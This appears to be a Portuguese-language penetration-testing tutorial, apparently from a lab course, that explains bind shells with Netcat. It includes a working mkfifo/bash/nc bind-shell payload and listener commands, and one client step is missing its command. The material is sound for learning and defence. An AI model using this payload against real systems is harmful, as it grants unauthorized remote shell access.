 Em muitos casos, trabalharemos para estabelecer um shell em um sistema em uma rede local ou remota. Isso significa que procuraremos usar o aplicativo emulador de terminal em nossa caixa de ataque local para controlar o sistema remoto através de seu shell. Isso geralmente é feito usando um `Bind` &/ou `Reverse` shell.

## O que é isso?

Com um bind shell, o sistema `alvo`  iniciou um ouvinte e aguarda uma conexão do sistema de um pentista ( caixa de ataque ).

![[Pasted image 20230703224945.png]]

Como visto na imagem, nos conectaríamos diretamente com o `IP address` e `port` ouvindo no alvo. Pode haver muitos desafios associados à obtenção de uma concha dessa maneira. Aqui estão alguns a considerar:

- Teria que haver um ouvinte já iniciado no alvo.
- Se não houver um ouvinte iniciado, precisaríamos encontrar uma maneira de fazer isso acontecer.
- Os administradores geralmente configuram regras rígidas de firewall de entrada e NAT ( com a implementação do PAT ) na borda da rede ( voltada para o público ), portanto, já precisamos estar na rede interna.
- Os firewalls do sistema operacional ( no Windows e Linux ) provavelmente bloquearão a maioria das conexões recebidas que não estão associadas a aplicativos confiáveis baseados em rede.

Os firewalls do sistema operacional podem ser problemáticos ao estabelecer um shell, pois precisamos considerar endereços IP, portas e a ferramenta em uso para fazer nossa conexão funcionar com sucesso. No exemplo acima, o aplicativo usado para iniciar o ouvinte é chamado [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) é considerado nosso `Swiss-Army Knife` pois pode funcionar nos soquetes TCP, UDP e Unix. É capaz de usar IPv4 e IPv6, abrir e ouvir soquetes, operar como um proxy e até lidar com entrada e saída de texto. Usaríamos nc na caixa de ataque como nosso `client`, e o alvo seria o `server`.

Vamos entender mais profundamente isso praticando com o Netcat e estabelecendo uma conexão de shell de ligação com um host na mesma rede sem restrições.

## Praticando com o GNU Netcat

Primeiro, precisamos gerar nossa caixa de ataque ou Pwnbox e nos conectar ao ambiente de rede da Academia. Verifique se nosso alvo foi iniciado. Nesse cenário, estaremos interagindo com um sistema Ubuntu Linux para entender a natureza de um shell de ligação. Para fazer isso, usaremos `netcat` (`nc`) no cliente e servidor.

Depois de conectado à caixa de destino com ssh, inicie um ouvinte do Netcat:

#### No. 1: Servidor - Alvo iniciando o ouvinte Netcat

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

Nesse caso, o destino será nosso servidor e a caixa de ataque será nosso cliente. Depois de clicar em Enter, o ouvinte é iniciado e aguarda uma conexão do cliente.

De volta à caixa de ataque do cliente ( ), usaremos o nc para conectar-se ao ouvinte iniciado no servidor.

#### No. 2: Cliente - Caixa de ataque conectada ao destino

```shell-session
casluxd@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Observe como estamos usando o nc no cliente e no servidor. No lado do cliente, especificamos o endereço IP do servidor e a porta que configuramos para ouvir em (`7777`). Depois de nos conectarmos com sucesso, podemos ver um `succeeded!` mensagem no cliente, como mostrado acima, e uma `received!` mensagem no servidor, como visto abaixo.

#### No. 3: Servidor - Conexão de recebimento de destino do cliente

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
```

Saiba que este não é um shell adequado. É apenas uma sessão do TCP da Netcat que estabelecemos. Podemos ver sua funcionalidade digitando uma mensagem simples no lado do cliente e visualizando-a recebida no lado do servidor.

#### No. 4: Cliente - Caixa de ataque enviando mensagem Hello Academy

```shell-session
casluxd@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Depois de digitar a mensagem e clicar em Enter, notamos que a mensagem é recebida no lado do servidor.

```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

Nota: Quando estiver na rede da academia ( 10.129.x.x/16 ), podemos trabalhar com outro aluno da academia para conectar-se à sua caixa de destino e praticar os conceitos apresentados neste módulo.

## Estabelecendo shell básica com Netcat

Mostramos que podemos usar o Netcat para enviar texto entre o cliente e o servidor, mas esse não é um shell de ligação porque não podemos interagir com o sistema operacional e o sistema de arquivos. Só podemos passar texto dentro da configuração do pipe pelo Netcat. Vamos usar o Netcat para servir nossa concha para estabelecer uma concha de ligação real.

No lado do servidor, precisaremos especificar o `directory`, `shell`, `listener`, trabalhe com alguns `pipelines`, e `input` & `output` `redirection` para garantir que um shell no sistema seja atendido quando o cliente tentar se conectar.

#### No. 1: Servidor - Vinculando um shell de barra à sessão TCP

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Os comandos acima são considerados nossa carga útil e entregamos essa carga útil manualmente. Percederemos que os comandos e o código em nossas cargas úteis serão diferentes dependendo do sistema operacional host para o qual estamos entregando.

De volta ao cliente, use o Netcat para conectar-se ao servidor agora que um shell no servidor está sendo atendido.

#### No. 2: Cliente - Conectando para vincular o shell no destino

Percederemos que estabelecemos com sucesso uma sessão de bind shell com o alvo. Lembre-se de que tínhamos controle total sobre nossa caixa de ataque e o sistema de destino nesse cenário, o que não é típico. Trabalhamos com esses exercícios para entender o básico do shell de ligação e como ele funciona sem nenhum controle de segurança ( roteadores habilitados para NAT, firewalls de hardware, firewalls de aplicativos da Web, IDS, IPS, Firewalls do sistema operacional, proteção de endpoint, mecanismos de autenticação, etc ... ) no local ou são necessárias explorações. Esse entendimento fundamental será útil à medida que entrarmos em situações mais desafiadoras e cenários realistas que trabalham com sistemas vulneráveis.

Como mencionado anteriormente nesta seção, também é bom lembrar que a bind shell é muito mais fácil de defender. Como a conexão será recebida, é mais provável que seja detectada e bloqueada por firewalls, mesmo que portas padrão sejam usadas ao iniciar um ouvinte. Existem maneiras de contornar isso usando um shell reverso que discutiremos na próxima seção.